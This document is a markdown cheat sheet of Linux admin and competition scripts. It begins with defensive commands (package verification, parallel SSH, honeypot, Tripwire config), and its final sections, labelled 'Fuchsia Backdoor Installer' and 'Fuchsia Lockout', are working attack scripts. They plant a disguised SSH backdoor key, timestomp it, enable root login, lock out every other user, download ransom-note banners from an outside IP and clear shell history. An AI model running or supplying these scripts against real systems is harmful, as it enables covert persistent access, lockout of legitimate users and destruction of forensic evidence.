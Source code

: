 # Scripts

### Quick Commands

* RHEL verify all packages: `rpm -Va`
  * Output only if different, checks perms and hashes
* Debian verify all packages: `debsums`
  * Need to install
* Kill all PTYs that are not yours: `` kill -9 `pgrep '^(bash|sh)' | grep -v $$` ``
* Get established connections: `netstat -tpn 2>/dev/null || netstat -an | grep ESTABLISHED`
* Get listening ports: `netstat -tln 2>/dev/null || netstat -an | grep LISTEN`
* List kernel modules: `lsmod || modinfo`

### Control
* Run command on one host: `ssh <hostname> -l <username> <username> <command>`
  * Username only needed if not `root`
* Run command on all hosts: `pssh -h <hosts_file> -l <default_username> <command>`
  * Username only needed if not `root`
  * If `pssh` command doesn't exist, try `parallel-ssh`
  * `pssh` must be installed before use
* Run command on one host (ansible): `ansible <hostname> -m raw -a "<command>"`
* Run command on all hosts (ansible): `ansible all -m raw -a "<command>"`
* Run ansible playbook: `ansible-playbook name_of_playbook.yml`

### SSH Initial Spray

```
$ sudo apt install sshpass pssh
$ OP=<old_password>
$ NP=<new_password>
$ for i in {1..255}; do sshpass -p "$OP" ssh -o StrictHostKeyChecking=no -o ConnectTimeout=10 <user>@10.X.X.$i "echo -e '$OP\n$NP\n$NP' | passwd" && echo 10.X.X.$i >> success & done
$ sshpass -p "$NP" parallel-ssh -h success -l <user> -t 5 -A "<sudo> /sbin/iptables -I INPUT 1 -p tcp --dport 22 -j ACCEPT && <sudo> /sbin/iptables -I INPUT 2 -j DROP"
```
Notes:
* Change `<user>` to be `root` and any admin user names provided
* Change `10.X.X` to be actual subnet
* Change `1..255` to actually represent range of IP addresses in our environment
* Change `$OP\n$NP\n$NP` to `$NP\n$NP` if <user> == root
* Need manual password change on *BSD, Solaris
* Need manual firewall on OpenSUSE (firewalld), *BSD (PfCTL), and Solaris (ipfilter)

### Copy Keys

Prep: `ssh-keygen`

```
#!/usr/bin/env bash

while [ true ]
do
    echo "IP address:"
    read IP
    echo "Hostname:"
    read HOSTNAME
    ssh-copy-id root@$IP
    echo "$IP $HOSTNAME" | sudo tee -a /etc/hosts
    echo $HOSTNAME | sudo tee -a /etc/servers
    mkdir -p /servers/$HOSTNAME
done
```

### Mount SSHFS

```
#!/bin/bash

sudo mkdir -p /servers
sudo chown root:toads /servers
sudo chmod 0775 /servers

for s in $(cat /etc/servers); do
  sudo umount /servers/$s #>/dev/null 2>&1 || true
  rmdir /servers/$s #>/dev/null 2>&1 || true
  mkdir /servers/$s
  sshfs -o allow_other,ServerAliveInterval=20,reconnect root@$s:/ /servers/$s
done
```

### Convert ARP entries to static

```
$ arp -an | awk -F' ' '{print $2 $4}' | cut -d'(' -f2 | while IFS=')' read ip mac
> do arp -s $ip $mac
> done
```

### Honeypot (run command on connection)

```
#!/usr/bin/env python
import os, socket, select

ports = [12345, 12346]
socks = []

for p in ports:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind(("0.0.0.0", p))
    s.listen(5)
    socks.append(s)
    
while True:
    r, w, err = select.select(socks, [], [])
    for s in r:
        c, addr = s.accept()
        c.shutdown(socket.SHUT_RDWR)
        c.close()
        os.system('wall "suspicious connection from IP: " ' + addr[0])
```

### Procedurally Generate Tripwire Configuration

```
for S in `ls /servers`; do
  echo "( rulename = "$S", severity = 100)">>~/twpol.txt
  echo "{">>~/twpol.txt
  for D in `ls /servers/$S | grep -v dev | grep -v srv | grep -v proc`; do
    echo "/servers/$S/$D -> \$(ReadOnly) (recurse = true);">>~/twpol.txt
  done
  echo "}">>~/twpol.txt
done
```

### Fuchsia Backdoor Installer

```
echo "PUBKEY HERE" >> /etc/ssh/ssh_host_rsa2048_key.pub
touch -r /etc/ssh/ssh_host_rsa_key.pub /etc/ssh/ssh_host_rsa2048_key.pub
sed -i 's/\#AuthorizedKeysFile.*/AuthorizedKeysFile .ssh\/authorized_keys \/etc\/ssh\/ssh_host_rsa2048_key.pub/' /etc/ssh/sshd_config
sed -i 's/PubkeyAuthentication.*/PubkeyAuthentication yes/' /etc/ssh/sshd_config
sed -i 's/PermitRootLogin.*/PermitRootLogin yes/' /etc/ssh/sshd_config
kill -HUP $(pgrep -f `which sshd`)
history -c
echo "" > ~/.bash_history
```


### Fuchsia Lockout

```
who | awk '!/root/{ cmd="/sbin/pkill -KILL -u " $1; system(cmd)}'

echo "Kicked em out!"

cp /etc/passwd /etc/passwd.backup.shad0wfuchsia
cp /etc/ssh/sshd_config /etc/ssh/sshd_config.backup.shad0wfuchsia

echo "User table backed up"

echo "Locking users..."

for USERNAME in `cut -d: -f1 /etc/passwd | grep -v root`
do
  sudo passwd -l $USERNAME
done

echo "All users locked"

# Set authorized keyfile to ONLY backdoor key
sed -i 's/\AuthorizedKeysFile.*/AuthorizedKeysFile \/etc\/ssh\/ssh_host_rsa2048_key.pub/' /etc/ssh/sshd_config
sed -i 's/PubkeyAuthentication.*/PubkeyAuthentication yes/' /etc/ssh/sshd_config

# Disable password authentication
sed -i 's/#PasswordAuthentication.*/PasswordAuthentication no/' /etc/ssh/sshd_config
sed -i 's/PasswordAuthentication.*/PasswordAuthentication no/' /etc/ssh/sshd_config
sed -i 's/PermitRootLogin.*/PermitRootLogin yes/' /etc/ssh/sshd_config

# Remove any existing allowusers directive, replace with root only
sed -i 's/AllowUsers.*/\#/' /etc/ssh/sshd_config
echo -e ' \n' >>/etc/ssh/sshd_config
echo 'AllowUsers root' >> /etc/ssh/sshd_config

sed -i 's/Banner.*/\#/' /etc/ssh/sshd_config
sed -i 's/#Banner.*/\#/' /etc/ssh/sshd_config
echo 'Banner /etc/fuchsia_banner' >> /etc/ssh/sshd_config

echo "SSH Configuration finished"

rm /etc/motd
wget -O /etc/fuchsia_banner http://67.205.157.179/fus-nocolor.txt
wget -O /etc/nologin http://67.205.157.179/fus.txt

echo "Ransom notes installed"

cat >~/unfuck.sh <<EOL
#!/bin/bash

wget -qO - http://67.205.157.179/paid.txt

echo "Reverting changes..."
mv /etc/passwd.backup.shad0wfuchsia /etc/passwd
mv /etc/ssh/sshd_config.backup.shad0wfuchsia /etc/ssh/sshd_config
rm /etc/nologin
echo "" >/etc/fuchsia_banner

for USERNAME in \`cut -d: -f1 /etc/passwd | grep -v root\`
do
  sudo passwd -u $USERNAME
done

echo -e "System configuration restored.\nBye!"
rm -- "\$0"
EOL

kill -HUP $(pgrep -f `which sshd`)

echo "!!!CHANGE THE ROOT PASSWORD"

history -c
echo "" > ~/.bash_history
```
